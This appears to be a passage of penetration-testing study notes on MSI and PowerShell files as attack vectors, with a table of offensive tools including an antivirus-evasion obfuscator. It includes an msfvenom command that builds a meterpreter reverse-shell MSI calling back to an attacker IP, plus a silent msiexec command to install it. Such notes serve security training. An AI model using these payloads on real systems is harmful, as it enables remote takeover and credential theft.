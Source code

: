 ### MSI Files (.msi)

**Purpose:**
- Windows Installer database files
- Application installation packages
- Component and dependency management

**Attack Applications:**
- Payload delivery via Windows Installer
- Privilege escalation through installer service
- Social engineering (fake software updates)
- Persistence via scheduled installation

**MSFVenom MSI generation:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f msi > malicious_installer.msi
```

**Execution:**
```cmd
msiexec /quiet /qn /i malicious_installer.msi
```

### PowerShell (.ps1)

**Capabilities:**
- Shell environment and scripting language
- .NET Common Language Runtime based
- Object-oriented input/output
- Extensive post-exploitation options

**Attack Applications:**
- Fileless malware delivery
- Memory-only payload execution
- Administrative task automation
- System and network enumeration
- Credential harvesting

**PowerShell execution policies:**
- **Restricted**: Default, no scripts allowed
- **RemoteSigned**: Local scripts allowed, remote require signature
- **Unrestricted**: All scripts allowed
- **Bypass**: No policy enforcement

## Tools, Tactics, and Procedures

### Payload Generation Resources

| Resource | Description | Use Case |
|----------|-------------|----------|
| **MSFVenom & Metasploit** | Versatile payload generation and exploitation | Multi-platform payloads, automated exploitation |
| **Payloads All The Things** | Payload generation cheat sheets | Quick reference, one-liners |
| **Mythic C2 Framework** | Alternative C2 framework | Custom payload generation, advanced C2 |
| **Nishang** | Offensive PowerShell framework | PowerShell-based attacks, implants |
| **Darkarmour** | Binary obfuscation tool | AV evasion, obfuscated executables |
